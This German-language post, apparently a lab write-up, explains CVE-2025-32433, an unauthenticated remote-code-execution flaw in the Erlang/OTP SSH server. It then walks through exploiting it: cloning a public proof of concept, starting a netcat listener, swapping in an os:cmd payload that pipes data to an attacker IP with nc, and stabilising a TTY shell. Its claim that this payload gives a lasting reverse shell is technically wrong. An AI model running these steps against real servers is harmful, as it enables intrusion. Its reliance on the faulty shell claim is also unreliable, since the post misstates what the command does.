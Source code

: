 # Was ist Erlang etc.
Erlang und sein begleitendes Framework, die Open Telecom Platform (OTP), bilden ein leistungsfähiges Ökosystem für den Aufbau verteilter fehlertoleranter Systeme. Erlang ist eine Programmiersprache zum Aufbau skalierbarer Echtzeitsysteme, die eine hohe Verfügbarkeit erfordern. Ursprünglich wurde Erlang von Ericsson für Telekommunikationssysteme entwickelt, hat sich jedoch im Laufe der Jahre zu einer Lösung für verschiedene Herausforderungen im Bereich der verteilten Datenverarbeitung entwickelt.

Erlang wird nicht nur von zahlreichen Unternehmen für die Produktentwicklung eingesetzt, sondern auch von vielen Universitäten für die Forschung und sogar für die Lehre. Sie können mehr über Erlang auf der offiziellen Seite erfahren.
OTP ist eine Sammlung von Middleware, Bibliotheken und Tools, die in Erlang geschrieben wurden. Obwohl das T in OTP für Telecom steht, hat sich OTP zu einem Allzweck-Framework für die Entwicklung verteilter Anwendungen entwickelt. Im Allgemeinen verwenden Projekte, die Erlang einsetzen, Erlang zusammen mit seinen Bibliotheken, d. h. Erlang/OTP.


Das Erlang/OTP SSH ist eine Implementierung des SSH-Protokolls als Teil des Erlang OTP. Es ermöglicht sicheren Shell-Zugang und sichere Dateiübertragungen in Erlang-basierten Systemen. Kürzlich wurde mit CVE-2025-32433 eine kritische Sicherheitslücke in der Erlang/OTP SSH-Implementierung bekannt, die eine nicht authentifizierte Remotecodeausführung (RCE) ermöglicht. Diese Schwachstelle wurde von Forschern der Ruhr-Universität Bochum entdeckt und mit einem CVSS-Score von 10,0 als kritisch eingestuft.

# Technischer Hintergrund
Diese Schwachstelle ist auf die Implementierung des SSH-Protokolls durch Erlang/OTP zurückzuführen, insbesondere auf die Behandlung der Nachrichten des Verbindungsprotokolls während der Pre-Authentifizierungsphase. Nach diesem technischen Überblick sind SSH-Nachrichtennummern von 80 und höher für die Post-Authentifizierung reserviert. Wenn also der SSH-Client eine SSH-Nachricht mit solchen Nummern sendet, bevor die Authentifizierung abgeschlossen ist, sollte der SSH-Server die Verbindung unterbrechen. Die mit der Schwachstelle betroffenen Server setzen dies nicht durch, so dass die Angreifer viel Spielraum haben, um ihre Nachrichten zu gestalten und schließlich Unautorisierte Code Ausführung zu erreichen.

Ein Proof of Concept (PoC) Exploit-Code wurde von Matthew Keeley geschrieben und kann hier gefunden werden. Der Exploit funktioniert in vier Stufen; die Payload wird in der vierten Stufe gesendet, die den Code des Angreifers ausführt, bevor die Authentifizierung durchgeführt wird.
https://github.com/platsecurity/CVE-2025-32433

# Exploitation

Herunterladen des Exploits: 
```
git clone https://github.com/ProDefense/CVE-2025-32433
```
Dann muss der Exploit noch angepasst werden mit Ziel IP und Ziel Port (in dem Beispiel hier 22 sonst aber der Port auf dem SSH liegt)

Nun muss man noch einen Netcat listener aufsetzen wie gewohnt mit 

```
nc -lvnp 4444
```

Wenn man jetzt den Exploit laufen lässt bekommt man den Output "pwned" in der Netcat shell allerdings schließt sich die Rev Shell instant wieder.

Wenn man jetzt das ganze so umbauen will das man nicht nur kurz eine Revshell mit output bekommt sondern längerfristig eine Shell hat ändert man in Zeile 108 den Code: 

```
command = 'file:write_file("/lab.txt", <<"pwned">>).'
```

Zu dem Code 

```
command='os:cmd("cat /lab.txt | nc 10.10.199.230 4444").'
```
(Natürlich mit eigener IP und in NC Spezifizierten port)

Und Tadaaa da ist die Rev shell. Nun diese noch stabilisieren und Schon erledigt. 

### Stabilisieren der shell 

In deiner Shell (sobald du Zugriff hast), führe aus:

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

Dann:

`CTRL+Z   # in dein Terminal stty raw -echo; fg`

Dann nochmal:

`reset export TERM=xterm`

→ Jetzt kannst du z. B. `sudo`, `nano`, `ssh` usw. verwenden wie in einer echten Shell.